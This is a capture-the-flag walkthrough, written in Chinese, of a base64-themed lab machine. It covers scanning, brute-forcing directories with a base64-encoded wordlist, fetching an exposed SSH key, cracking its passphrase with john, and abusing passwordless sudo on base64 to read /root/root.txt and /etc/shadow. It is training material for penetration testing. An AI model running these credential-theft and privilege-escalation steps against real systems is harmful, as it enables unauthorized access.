




主机探测

```
nmap -sn 192.168.56.0/24
```


确定靶机ip：192.168.56.108


端口扫描

```
set ip 192.168.56.108
sudo nmap -sT -p- --min-rate 1000 $ip -oN ./portscan
```


提取端口信息并进行详细结果扫描

```
set port $(cat ./portscan | grep open | awk -F'/' '{print $1}' | paste -sd,)
sudo nmap -sCV -O -p $port $ip -oN ./detailscan
```


开放了22和80端口


访问80端口



base64

解码


出现用户lucas，同时提示要BASE64编码


查看页面源码


可能是密码字典



尝试目录扫描

```
dirsearch -u http://192.168.56.108
```



无结果


结合先前得到的提示，可能需要对字典进行base64编码

写一个简单的脚本

```
for i in $(cat /usr/share/seclists/Discovery/Web-Content/common.txt)
do
	echo $i | base64 >> ./common.dic
done
```

```
bash dic.sh
cat common.dic | head -n5
```


重新尝试目录扫描

```
dirsearch -u http://192.168.56.108 -w common.dic
```


依次解码


robots.txt和id_rsa


base64解码

```
curl -s http://192.168.56.108/aWRfcnNhCg== | base64 -d > id_rsa
curl -s http://192.168.56.108/cm9ib3RzLnR4dAo= | base64 -d > robots.txt
```


尝试ssh登录

```
chmod 400 id_rsa
ssh lucas@192.168.56.108 -i id_rsa
```



需要密码，结合之前得到的字典


爆破失败

```
ssh2john id_rsa > hash
john -w=passwd.dic hash
```


结合先前提示，对passwd.dic进行base64编码处理


```
for i in $(cat passwd.dic)
do
	echo $i | base64 >> passbase.dic
done
```

```
bash passwd.sh
john -w=passwdbase.dic hash
```


得到密码


成功登录


得到user.txt


```
sudo -l
```


无密码执行base64

那么可以尝试利用base64实现任意文件读取


尝试直接读取/root/root.txt

```
sudo base64 /root/root.txt | base64 -d
```


或是读取/etc/shadow然后尝试爆破root密码

